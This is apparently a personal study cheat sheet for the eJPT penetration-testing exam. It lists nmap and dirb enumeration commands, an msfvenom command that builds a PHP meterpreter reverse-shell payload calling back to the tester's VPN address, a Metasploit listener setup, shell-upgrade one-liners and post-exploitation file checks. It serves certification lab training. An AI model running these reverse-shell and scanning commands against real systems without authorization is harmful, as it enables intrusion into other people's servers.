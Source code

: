 # Cheat Sheet Commands for eJPT Exam

# Network Mapping

## Network Discovery Scan
```nmap -sn <target IPs/CIDR> -oN discovery.nmap```

## Enumerate live hosts

```nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open``` (practice 3)

# Enumerate Web App directories

```dirb http://targetip```

- Remember to view page source as well!!

# Prep for Reverse Shell 

## msfvenom 

- Possible malware to try on Apache servers 


```msfvenom -p php/meterpreter_reverse_tcp lhost=<VPN ip> lport=53 -o meterpreter.php```

## metasploit listener set up

```use exploit/multi/handler```
```set lhost <VPN IP>```
```set payload php/meterpreter_reverse_tcp```
```set lport 53```
```run```

# After obtaining reverse shell in meterpreter

- Friendlier terminal prompt within meterpreter
`shell`
`bash -i`

- Spawn terminal 

`python -c 'import pty;pty.spawn("/bin/bash")';`

# Post Exploitation Checks 

- Always check /etc/hosts file 
- Check /var/www for flag
